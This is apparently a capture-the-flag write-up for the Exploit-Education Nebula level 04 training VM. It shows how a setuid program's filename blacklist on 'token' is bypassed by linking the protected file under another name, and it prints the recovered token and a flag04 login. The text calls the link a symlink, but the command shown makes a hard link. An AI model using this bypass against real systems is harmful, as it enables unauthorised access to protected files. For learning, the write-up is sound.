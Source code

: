 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 04"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 4](https://exploit.education/nebula/level-04/)

## Challenge
This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it 
To do this level, log in as the `level04` account with the password `level04`. Files for this level can be found in /home/flag04.
## Vulnerabilty
The program looks for the string `token` in the file name. 
```
if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
```
We can beat this check by creating a [symlink](https://www.cyberciti.biz/faq/creating-soft-link-or-symbolic-link/) to the file token using a file name that does not have `token` in it
```
level04@nebula:~$ ln /home/flag04/token /home/level04/flag
level04@nebula:~$ ls
flag  flag04  token
```
Symlink created. lets run the program now.
```
level04@nebula:~$ cd /home/flag04
level04@nebula:/home/flag04$ ./flag04 /home/level04/flag
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
flag04@nebula:~$
```
### Solved!